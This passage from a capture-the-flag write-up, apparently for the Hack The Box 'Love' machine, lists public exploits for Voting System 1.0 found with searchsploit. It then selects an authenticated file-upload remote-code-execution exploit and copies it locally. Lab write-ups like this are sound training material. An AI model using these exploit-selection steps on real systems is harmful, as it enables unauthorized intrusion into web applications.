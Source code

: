 ```SSRF - Server Side Request Forgery``` is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing
--------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                 |  Path
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Online Voting System - Authentication Bypass                                                                   | php/webapps/43967.py
Online Voting System 1.0 - Authentication Bypass (SQLi)                                                        | php/webapps/50075.txt
Online Voting System 1.0 - Remote Code Execution (Authenticated)                                               | php/webapps/50076.txt
Online Voting System 1.0 - SQLi (Authentication Bypass) + Remote Code Execution (RCE)                          | php/webapps/50088.py
Online Voting System Project in PHP - 'username' Persistent Cross-Site Scripting                               | multiple/webapps/49159.txt
Voting System 1.0 - Authentication Bypass (SQLI)                                                               | php/webapps/49843.txt
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                      | php/webapps/49445.py
Voting System 1.0 - Remote Code Execution (Unauthenticated)                                                    | php/webapps/49846.txt
Voting System 1.0 - Time based SQLI (Unauthenticated SQL injection)                                            | php/webapps/49817.txt
WordPress Plugin Poll_ Survey_ Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection      | php/webapps/50052.txt
--------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

We logged in ```/admin``` and we do have creds for ```admin```

So lets try authenticated RCE with

```c
Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)                                      | php/webapps/49445.py
```

## Gaining Access

### Automated Exploit

Copying the exploit to working directory

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Love]
└─$ searchsploit -m php/webapps/49445.py
  Exploit: Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution)
      URL: https://www.exploit-db.com/exploits/49445
     Path: /usr/share/exploitdb/exploits/php/webapps/49445.py
File Type: Python script, ASCII text executable, with very long lines

Copied to: /home/aidenpearce369/HTB/Love/49445.py
```
